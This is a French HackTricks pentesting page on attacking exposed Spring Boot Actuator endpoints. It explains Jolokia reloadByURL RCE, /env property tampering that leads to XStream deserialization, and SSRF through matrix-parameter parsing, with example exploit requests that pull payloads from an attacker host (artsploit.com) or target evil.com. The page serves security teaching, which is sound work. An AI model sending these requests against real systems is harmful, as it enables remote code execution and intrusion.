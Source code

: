 # Spring Actuators

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
{% endhint %}

## **Bypass d'authentification Spring**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**Provenant de** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploitation des Actuators Spring Boot

**Consultez le post original de** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Points Clés :**

* Les Actuators Spring Boot enregistrent des points de terminaison tels que `/health`, `/trace`, `/beans`, `/env`, etc. Dans les versions 1 à 1.4, ces points de terminaison sont accessibles sans authentification. À partir de la version 1.5, seuls `/health` et `/info` sont non sensibles par défaut, mais les développeurs désactivent souvent cette sécurité.
* Certains points de terminaison des Actuators peuvent exposer des données sensibles ou permettre des actions nuisibles :
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, et `/heapdump`.
* Dans Spring Boot 1.x, les actuators sont enregistrés sous l'URL racine, tandis que dans 2.x, ils sont sous le chemin de base `/actuator/`.

### **Techniques d'Exploitation :**

1. **Exécution de Code à Distance via '/jolokia'** :
* Le point de terminaison de l'actuator `/jolokia` expose la bibliothèque Jolokia, qui permet l'accès HTTP aux MBeans.
* L'action `reloadByURL` peut être exploitée pour recharger les configurations de journalisation à partir d'une URL externe, ce qui peut conduire à un XXE aveugle ou à une Exécution de Code à Distance via des configurations XML élaborées.
* Exemple d'URL d'exploitation : `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Modification de Configuration via '/env'** :
* Si les bibliothèques Spring Cloud sont présentes, le point de terminaison `/env` permet de modifier les propriétés environnementales.
* Les propriétés peuvent être manipulées pour exploiter des vulnérabilités, telles que la vulnérabilité de désérialisation XStream dans le service Eureka serviceURL.
* Exemple de requête POST d'exploitation :

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Autres Paramètres Utiles** :
* Des propriétés comme `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, et `spring.datasource.tomcat.max-active` peuvent être manipulées pour diverses exploitations, telles que l'injection SQL ou la modification des chaînes de connexion à la base de données.

### **Informations Supplémentaires :**

* Une liste complète des actuators par défaut peut être trouvée [ici](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* Le point de terminaison `/env` dans Spring Boot 2.x utilise le format JSON pour la modification des propriétés, mais le concept général reste le même.

### **Sujets Connexes :**

1. **Env + H2 RCE** :
* Les détails sur l'exploitation de la combinaison du point de terminaison `/env` et de la base de données H2 peuvent être trouvés [ici](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF sur Spring Boot par une Interprétation Incorrecte des Noms de Chemin** :
* La gestion des paramètres de matrice (`;`) par le framework Spring dans les noms de chemin HTTP peut être exploitée pour une falsification de requête côté serveur (SSRF).
* Exemple de requête d'exploitation :

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
</details>
{% endhint %}
